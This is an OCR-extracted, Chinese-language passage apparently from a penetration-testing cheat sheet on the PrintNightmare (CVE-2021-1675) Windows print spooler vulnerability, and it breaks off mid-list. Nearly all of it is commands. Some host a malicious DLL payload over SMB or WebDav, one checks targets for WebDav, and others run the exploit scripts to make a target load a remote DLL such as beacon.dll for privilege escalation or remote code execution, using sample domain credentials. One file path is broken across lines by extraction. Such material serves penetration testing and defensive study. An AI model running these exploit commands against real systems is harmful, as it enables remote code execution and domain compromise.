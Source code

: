   **有效载荷托管**： 

  * 有效载荷可以托管在Impacket SMB服务器上，因为[PR #1109](https://github.com/SecureAuthCorp/impacket/pull/1109)：

  ```ps1
  python3 ./smbserver.py share /tmp/smb/
  ```

  * 使用[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer/blob/main/Invoke-BuildAnonymousSMBServer.ps1)（主机上需要管理员权限）： 

  ```ps1
  Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer -Path C:\Share -Mode Enable
  ```

  * 使用WebDav和[SharpWebServer](https://github.com/mgeeky/SharpWebServer)（不需要管理员权限）：

  ```ps1
  SharpWebServer.exe port=8888 dir=c:\users\public verbose=true
  ```

  当使用WebDav而不是SMB时，必须在URI的主机名中添加`@[PORT]`，例如：`\\172.16.1.5@8888\Downloads\beacon.dll`
  WebDav客户端**必须**在被利用的目标上激活。默认情况下，Windows工作站上没有激活WebDav（您必须`net start webclient`），服务器上也没有安装。以下是检测激活的webdav的方法：

  ```ps1
  cme smb -u user -p password -d domain.local -M webdav [TARGET]
  ```

  **触发漏洞**： 

  * [SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

    ```powershell
    # 需要修改过的Impacket：https://github.com/cube0x0/impacket
    python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
    python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
    ## LPE
    SharpPrintNightmare.exe C:\addCube.dll
    ## 使用现有上下文的RCE
    SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository
  tprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
    ## 使用runas /netonly的RCE
    SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository
  tprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
    ```

  * [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)
